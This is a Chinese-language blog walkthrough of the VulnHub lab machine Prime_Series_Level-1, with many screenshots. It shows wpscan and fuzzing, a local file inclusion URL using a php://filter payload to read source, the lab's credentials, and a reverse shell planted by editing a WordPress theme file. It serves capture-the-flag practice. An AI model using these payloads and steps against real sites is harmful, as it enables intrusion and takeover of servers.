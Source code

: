 ```yaml
---
layout: post
title:  "vulnhub >_ Prime_Series_Level-1"
description: walkthrough
category: vulnhub
---
```

# Prime_Series_Level-1



![image-20200616032702410]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616032702410.png)



![image-20200616034329320]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616034329320.png)



![image-20200616034518382]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616034518382.png)

wpscan正常扫识别不了，--force强制扫描

```bash
wpscan --url http://192.168.43.67/wordpress/ -e ap,vt,cb,u --force
```

![image-20200616035034608]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616035034608.png)

网页刷不出来。改了一下nat。正常了

但是没找到什么

重新换工具打目录



![image-20200616213145926]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616213145926.png)

![image-20200616213041045]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616213041045.png)

![image-20200616215441336]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616215441336.png)

浏览这个页面并不存在。线索是提示wfuzz，尝试在之前打过的php页面fuzz参数。

![image-20200616212916122]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616212916122.png)

```bash
http://10.10.10.129/index.php?file=location.txt
```



![image-20200616215704601]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616215704601.png)

另一个php页面是之前扫到的image.php

```bash
http://10.10.10.129/image.php?secrettier360=
```

![image-20200616215900633]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616215900633.png)

我们需要搞懂这个页面能提供什么功能。尝试看一下源码

```bash
10.10.10.129/image.php?secrettier360=php://filter/read=convert.base64-encode/resource=image.php
```

![image-20200616220111837]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220111837.png)

![image-20200616220257792]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220257792.png)

显然可以文件包含

![image-20200616220614259]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220614259.png)

验证成功，还有另外一个提示，尝试按提示读取

![image-20200616220710770]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616220710770.png)



现在我们有了一个用户凭证

```bash
saket:follow_the_ippsec
```

先实验ssh

![image-20200616221115742]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616221115742.png)

想到之前扫出的wordpress登录页面

```bash
http://10.10.10.129/wordpress/wp-admin
```

尝试登录失败。

查看wp的页面

![image-20200616222403987]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616222403987.png)

发现实际wp管理员的用户名可能是victor

```bash
victor:follow_the_ippsec
```



![image-20200616222625497]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616222625497.png)



修改主题已获得rshell

![image-20200616224111591]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224111591.png)

在右侧逐个查看页面查找可以修改的页面

![image-20200616224219617]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224219617.png)

修改成rshell

![image-20200616224310635]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224310635.png)

```bash
http://10.10.10.129/wordpress/wp-content/themes/twentynineteen/secret.php
```

![image-20200616224525255]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616224525255.png)

![image-20200616225603258]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616225603258.png)

直接本地提权

![image-20200616225900539]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616225900539.png)

![image-20200616225839008]({{ site.url }}/assets/Prime_Series_Level-1.assets/image-20200616225839008.png)
